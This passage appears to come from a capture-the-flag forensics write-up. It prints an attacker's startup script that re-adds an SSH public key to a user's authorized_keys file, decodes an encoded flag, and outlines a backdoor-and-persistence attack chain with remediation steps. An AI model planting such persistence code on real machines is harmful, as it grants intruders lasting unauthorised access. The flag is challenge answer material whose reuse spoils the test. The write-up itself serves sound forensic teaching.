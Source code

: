 ```
#!/bin/sh                                                                       # Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=                                                                echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys                                                                        ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~               ,
[m /home/k3vin/.ssh/authorized_keys && 
`authorized_keys
.authorized_keys.swp
[m /home/k3vin/.ssh/authorized_keys && 
authorized_keys
[m /home/k3vin/.ssh/authorized_keys && 
```

Notice the `# Well played` comment as well as the shebang (`#!/bin/sh`) just above that comment. This appears to be a bash script in which the attacker's public key is being put inside the victim's `authorized_keys` file. This is likely the script which was added to `/etc/rc.local` in order to maintain persistence on the machine, so even if the victim deleted the attacker's public key from the `authorized_keys` file, then once the victim rebooted their machine, the attacker's public key would be added again to the file, allowing them to maintain access since the `/etc/rc.local` script runs at startup.

So the real solution would be removing the malicious code added to `/etc/rc.local` and removing the attacker's public key from the `authorized_keys` file, and of course, removing the rootkit.

The `# Well played` comment also has a base64 encoded string:

`c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=`

`echo "c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=" | base64 -d`

![](https://i.imgur.com/TW76hdh.png)

The attacker indeed maintain access due to `/etc/rc.local`.

Let's review the attack sequence:

* A user executes a PythonBackup utility which contains a backdoor
  
* The backdoor starts a listener on port 12345
  
* The attacker connects to the backdoor
  
* The attacker edits the `/etc/rc.local` file in order to add a script which will add their public key to the SSH `authorized_keys` file, allowing them to maintain access. So even if the victim notices the key added to the `authorized_keys` file & deletes it, once the machine reboots, it'll be re-added.
  